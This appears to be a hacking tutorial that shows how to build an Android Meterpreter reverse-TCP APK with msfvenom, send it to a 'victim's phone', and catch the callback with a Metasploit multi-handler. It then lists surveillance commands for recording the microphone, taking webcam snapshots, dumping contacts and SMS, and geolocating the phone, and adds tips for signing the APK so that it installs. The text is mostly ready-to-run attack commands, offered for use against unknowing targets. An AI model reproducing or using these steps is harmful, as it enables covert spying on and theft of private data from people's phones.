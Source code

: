 
# STEPS :

1. Fire Up kali and open command terminal.

2. Set payload and create custom windows executable.
Command:

    root@kali:-# msfvenom -p android/meterpreter/reverse_tcp  LHOST=192.168.0.110 LPORT=4444 R > andro.apk 

(To know your LHOST, open new terminal and type ifconfig )

Your apk file is being saved in the Home folder.

Note: Don't add any stray space characters anywhere. Use the command as is (after changing the LHOST and LPORT as needed).

3. Transfer/mail this file (here andro.apk) file to the victim's phone and install it.

4. Start the metasploit framework console as follows :
         
Command:

    root@kali:-# msfconsole


5. Now it's time to open and setup multi-handler. Follows the steps :

    msf  > use multi/handler
    msf exploit(handler) > set payload android/meterpreter/reverse_tcp
    msf exploit(handler) > set LHOST 192.168.0.110
    msf exploit(handler) > set LPORT 4444
    msf exploit(handler) > exploit


        Payload Handler is being started........

6. When the victims clicks on the app(installed as MAIN ACTIVITY in the menu) in his phone, meterpreter session will be established.

7. Try the following exploit commands :
    - record_mic
    - webcam_snap
    - webcam_stream
    - dump_contacts
    - dump_sms
    - geolocate
************************************************************************
Error fixing(incase you get PARSE ERROR)

Two methods:

1)Type command "d2j-apk-sign andro.apk" 
                                               
                                               or

 2) To fix this error download signapk - Click here to download

Steps to follow

    Open Signapk folder then open cmd.
    Copy the andro.apk(the app you made) in Signapk folder.
    Type java -" jar signapk.jar certificate.pem key.pk8 andro.apk andro-signed.apk "in cmd(not double quotes).
    copy it in your phone and install it.

Hope this works... :)



Share the post!!!!!! Enjoy HACKING!!!